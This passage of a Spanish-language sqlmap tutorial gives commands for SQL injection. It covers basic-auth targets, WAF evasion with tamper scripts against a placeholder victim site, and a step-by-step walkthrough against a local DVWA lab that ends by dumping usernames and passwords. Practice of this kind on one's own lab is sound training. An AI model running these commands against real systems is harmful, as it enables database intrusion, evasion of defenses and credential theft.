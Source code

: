 ##### 🔐 10 Autenticación básica (HTTP Auth)

```bash
sqlmap -u "http://localhost/privado.php?id=1" --auth-type=basic --auth-cred=usuario:clave
```

---

##### 🛡️ 11 Bypass WAF

```bash
sqlmap -u "http://victima.com/index.php?id=1" --tamper=space2comment
```

- Tamper scripts ayudan a evadir filtros de seguridad como ModSecurity.

---

### 🧪 Ejemplo completo paso a paso

#### Paso 1: Detectar vulnerabilidad

```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=abc123; security=low"
```

#### Paso 2: Ver bases de datos

```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="..." --dbs
```

#### Paso 3: Tablas de `dvwa`

```bash
sqlmap -u "http://localhost/dvwa/..." --cookie="..." -D dvwa --tables
```

#### Paso 4: Columnas de `users`

```bash
sqlmap -u "http://localhost/dvwa/..." --cookie="..." -D dvwa -T users --columns
```

#### Paso 5: Volcar usuarios y contraseñas

```bash
sqlmap -u "http://localhost/dvwa/..." --cookie="..." -D dvwa -T users -C user,password --dump
```

---

### 📦 Extras útiles

| Opción               | Descripción                                     |
| -------------------- | ----------------------------------------------- |
| `--batch`            | Responde automáticamente a todas las preguntas. |
| `--risk=3 --level=5` | Aumenta la agresividad del análisis.            |
| `--random-agent`     | Usa user-agents aleatorios.                     |
| `--threads=5`        | Usa múltiples hilos (más rápido).               |

---